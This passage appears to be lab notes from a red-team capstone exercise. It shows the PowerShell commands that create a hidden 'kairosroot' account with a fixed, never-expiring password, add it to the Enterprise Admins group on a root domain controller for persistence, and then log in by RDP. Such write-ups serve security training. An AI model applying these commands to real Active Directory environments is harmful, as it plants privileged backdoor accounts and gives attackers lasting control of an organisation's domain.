 In order to maintain persistence, and allowing us to login without creating tickets, we can create a new user and add it to **Enterprise Admins** group, using the following PowerShell code:

## Connect to CORPDC with Administration credentials

[[Connect to CORP.DC with Administration credentials]]

## Adding a new user as an Enterprise Admin

PS C:\Users\Administrator>`$pwd = convertTo-SecureString "Capstone1@" -AsPlainText -Force`

PS C:\Users\Administrator> `New-ADUser -Name "kairosroot" -AccountPassword $pwd -PasswordNeverExpires $true -Enabled $true`

PS C:\Users\Administrator>`$User = Get-ADUser -Identity "kairosroot"  -Server "corpdc.corp.thereserve.loc"`

PS C:\Users\Administrator>`$Group = Get-ADGroup -Identity "Enterprise Admins" -Server "rootdc.thereserve.loc"`

PS C:\Users\Administrator>`Add-ADGroupMember -Identity $Group -Members $User -Server "rootdc.thereserve.loc"`


![[Maintain persistence-20240613153305218.webp]]

### Check out the user and group

PS C:\Users\Administrator> `echo $user`

![[Maintain persistence-20240616142921373.webp]]

PS C:\Users\Administrator> `echo $group`

![[Maintain persistence-20240613153950655.webp]]


`
## RDP to ROOTDC

With our new created user, we can just login in the ROOTDC as an Enterprise Admin.

Computer: `10.200.X.100`

### Connecting from a Client Machine

1. **Open Remote Desktop Connection**:
    
    - Press `Win + R`, type `mstsc`, and press `Enter`.
    - ![[Maintain persistence-20240615154522456.webp]]
1. **Enter the Host Machine’s Name or IP Address**:
    
    - In the Remote Desktop Connection window, enter the computer name or IP address of the host machine.
3. **Enter Credentials**:
    
    - When prompted, enter the username and password for the account on the host machine.
    - Username: `kairosroot`
    - Password: `Capstone1@`
1. **Optional: Save Connection Settings**:
    
    - You can save the connection settings to an RDP file by clicking on **Show Options** > **Save As**.
5. **Connect**:
    
    - Click **Connect** to start the remote session.

    ![[Maintain persistence-20240616151550123.webp]]


**Next step:** [[RDP to BANKDC from host CORPDC]]
